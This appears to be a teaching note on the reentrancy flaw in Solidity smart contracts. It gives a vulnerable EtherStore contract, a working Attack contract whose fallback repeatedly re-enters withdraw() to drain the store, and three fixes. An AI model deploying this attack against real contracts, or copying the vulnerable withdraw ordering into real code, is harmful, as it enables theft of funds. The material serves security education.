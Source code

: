 #reentrancy

https://solidity-by-example.org/hacks/re-entrancy/

```solidity
contract EtherStore { 
	mapping(address => uint256) public balances; 
	
	function deposit() public payable { 
		balances[msg.sender] += msg.value; 
	} 
	
	function withdraw() public { 
		uint256 bal = balances[msg.sender]; 
		require(bal > 0); 
		(bool sent,) = msg.sender.call{value: bal}(""); 
		require(sent, "Failed to send Ether"); balances[msg.sender] = 0; 
	} 
	
	// Helper function to check the balance of this contract 
	function getBalance() public view returns (uint256) {
		 return address(this).balance; 
	} 
	 
}
```

The above code call the external sender (which could be a contract), the external contract can implement a fallback function that re-enter the `withdraw()` function again and again, which will drain the `EtherStore` contract

```solidity
pragma solidity ^0.8.24;
contract Attack { 
	EtherStore public etherStore; 
	uint256 public constant AMOUNT = 1 ether; 
	
	constructor(address _etherStoreAddress) { 
		etherStore = EtherStore(_etherStoreAddress); 
	} 
	
	// Fallback is called when EtherStore sends Ether to this contract. 
	fallback() external payable { 
		if (address(etherStore).balance >= AMOUNT) { 
			etherStore.withdraw(); 
		} 
	} 
	
	function attack() external payable { 
		require(msg.value >= AMOUNT); 
		etherStore.deposit{value: AMOUNT}(); 
		etherStore.withdraw(); 
	} 
	// Helper function to check the balance of this contract 
	function getBalance() public view returns (uint256) { 
		return address(this).balance; 
	} 
}
```

Solutions:
1. use "check-effect-interaction" pattern
2. use `nonReentrant` guard from openzeppelin (the best solution)
3. don't use `call()`, which will forward all gas